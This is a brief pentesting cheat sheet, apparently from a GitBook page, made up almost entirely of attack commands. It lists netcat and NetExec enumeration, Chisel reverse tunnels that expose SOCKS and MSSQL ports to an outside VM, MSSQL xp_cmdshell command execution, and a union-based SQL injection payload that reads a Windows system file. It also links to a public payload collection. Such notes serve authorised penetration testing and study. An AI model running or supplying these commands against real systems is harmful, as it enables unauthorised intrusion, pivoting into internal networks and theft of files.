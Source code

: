 ```yaml
---
description: A collection of tools and commands used for pentesting.
---
```


# Tools

#### Networking

```bash
# Check port with netcat
nc -nvz 192.168.178.1 80

# Netexec enumeration
nxc ssh 192.168.178.1
```

#### Chisel

```bash
# chisel client 
./chisel.exe client -v 10.0.52.31:2000 R:socks 
./chisel.exe client -v 10.0.52.31:2000 R:1433:127.0.0.1:1433

# chisel server op VM 
sudo ./chisel server --reverse -v -p 2000
```

#### Myssql&#x20;

```bash
# MSSQL Command execution
EXEC xp_cmdshell "net user";
EXEC master.dbo.xp_cmdshell 'cmd.exe dir c:';
EXEC master.dbo.xp_cmdshell 'ping 127.0.0.1';

# Read file
-1 union select null,(select x from OpenRowset(BULK 'C:\Windows\win.ini',SINGLE_CLOB) R(x)),null,null
```

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md#mssql-command-execution" %}
Many paylods
{% endembed %}



